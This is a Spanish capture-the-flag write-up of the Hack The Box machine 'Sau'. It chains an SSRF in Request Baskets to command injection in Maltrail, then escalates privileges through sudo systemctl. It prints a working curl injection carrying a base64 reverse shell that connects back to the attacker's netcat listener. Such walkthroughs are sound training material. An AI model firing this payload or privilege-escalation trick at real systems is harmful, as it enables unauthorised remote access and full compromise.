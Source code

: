 ```yaml
---
title: 'Sau'
date: 2024-01-06T12:16:15-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'CTF', 'SSRF', 'RCE', 'Requests Baskets', 'CVE-2023-27163', 'Maltrail']
image:
  path: /assets/img/htb/sau/sau-0.png
---
```


En este post estaremos resolviendo la máquina [Sau](https://app.hackthebox.com/machines/Sau) de la plataforma Hack The Box. Esta máquina presenta una versión de **Request Baskets** vulnerable a SSRF (Server Side Request Forgery) identificada como **CVE-2023-27163**. Al explotar esta vulnerabilidad, logramos acceder a una instancia de **Maltrail** que es vulnerable a RCE (Remote Command Execution) la cual no requiere autenticación, permitiéndonos obtener una reverse shell en la máquina victima con el usuario **puma**. Posteriormente, aprovechamos una mala configuración de **sudo** para escalar nuestros privilegios y obtener un shell como el usuario root.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Reconocimento usando el comando ping](/assets/img/htb/sau/sau-1.png)

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live), en este caso 64.

## Enumeración

### Descubrimiento de puertos abiertos

Realizamos un escaneo con `nmap` para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

![Escaneo de puertos con nmap](/assets/img/htb/sau/sau-2.png)

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

Como podemos observar, el resultado del escaneo nos presenta 4 puertos. Donde el puerto `22` y `55555` estan abiertos y por otra parte los puertos `80` y `8338` estan filtrados.

### Enumeración de versión y servicio

![Descubrimiento de versión y servicio con nmap](/assets/img/htb/sau/sau-3.png)

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos determinados anteriormente.

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

Solo por motivos de comodidad, agregamos al archivo `/etc/hosts` el dominio `sau.htb` para que al apuntar a este nos resuelva la ip de la máquina víctima.

```bash
❯ echo "10.10.11.224 sau.htb" | tee -a /etc/hosts
```
## Explotación de Request Baskets (SSRF)

Accedemos al sitio web que corre bajo el puerto 55555, podemos ver que la aplicación web es [Request Baskets](https://rbaskets.in/web) en su versión `1.2.1`.

![Requests Basktes](/assets/img/htb/sau/sau-4.png)

Si hacemos una búsqueda un Google, encontramos que esta versión es vulnerable a SSRF (Server Side Request Forgery) [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3), la cual afecta al componente de la api de Request Baskets `/api/baskets/{name}`.
Esto quiere decir, que esta vulnerabilidad permite a los atacantes acceder a recursos de red e información sensible mediante una solicitud API manipulada.

![New Baskte](/assets/img/htb/sau/sau-5.png)

Si creamos una nueva cesta, vemos que en principio esta vacia. Pero si realizamos solicitudes a la url `http://sau.htb:55555/kc75t4` como se nos indica, notamos que los detalles de la solicitudes son listados en el panel.

![Detalles de solicitud](/assets/img/htb/sau/sau-6.png)

Vemos también que podemos realizar algunas configuraciones, cambiando opciones como `Forward URL`.

Si tenemos en cuenta nuestro escaneo inicial de puertos, podemos recordar que el puerto `80` de la máquina victima estaba filtrado. Por lo tanto, podemos probar apuntar a ese puerto de la máquina, indicando como **Forward URL** el localhost (`http://127.0.0.1`). También debemos marcar la casilla `Proxy Response`, para que nos redirija las respuestas desde la URL de reenvío (en este caso el localhost).

![Configuración](/assets/img/htb/sau/sau-7.png)

Si ahora accedemos a la url `http://sau.htb:55555/kc75t4`, podemos notar que logramos acceder a un sitio web que en principio no teniamos acceso.
De esta manera, logramos aprovecharnos de la vulnerabilidad SSRF, para acceder a un sitio interno.

![Configuración](/assets/img/htb/sau/sau-8.png)

## Explotación de Maltrail - (RCE)

Podemos apreciar en el pie de página de la web, que lo que esta corriendo bajo el puerto 80 es la aplicación **Maltrail** en su versión **v0.53**.

Al investigar un poco sobre Maltrail en esta versión especifica, podemos notar que es vulnerable a RCE (Remote Code Execution) [Maltrail v0.53](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

![Mailtrail v0.53](/assets/img/htb/sau/sau-9.png)

## Reverse Shell - `puma`

Teniendo en cuenta que la aplicación es vulenrable a **RCE**, lancemos directamente una reverse shell para ganar acceso al sistema.

En primer lugar, creamos el payload a enviar.

![Reverse Shell](/assets/img/htb/sau/sau-10.png)

Luego, nos ponemos en escucha con `nc` por el puerto 4444.

Enviamos la reverse shell usando `curl`.

```bash
curl http://sau.htb:55555/kc75t4r/login --data 'username=;`echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjYyIDQ0NDQgPi90bXAvZgo=" | base64 -d | sh`'
```

De esta forma, ganamos acceso al sistema como el usuario `puma`.

![Reverse Shell](/assets/img/htb/sau/sau-11.png)

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Leemos el flag del usuario.

![Flag del usuario](/assets/img/htb/sau/sau-12.png)

## Escalación de privilegios

Al realizar una enumeración del sistema, observamos que tenemos la capacidad de ejecución con privilegios **sudo** sin necesidad de proporcionar contraseña. Esto nos permite utilizar la herramienta `systemctl` y verificar el estado del servicio `trail.service`.

![Enumeración del sistema](/assets/img/htb/sau/sau-13.png)

Si realizamos una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), podemos ver que se puede abusar de este comando utilizando `!sh` para obtener un shell. 

![Escalada de privilegios](/assets/img/htb/sau/sau-14.png)

Esto sucede, debido a que `systemctl` utiliza `less` para mostrar el estado de un servicio.

![Escalada de privilegios](/assets/img/htb/sau/sau-15.png)

Por ultimo, leemos el flag del usuario `root`.

![Flag del usuario root](/assets/img/htb/sau/sau-16.png)

De esta forma, llegamos al final del Write-up de la máquina Sau.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
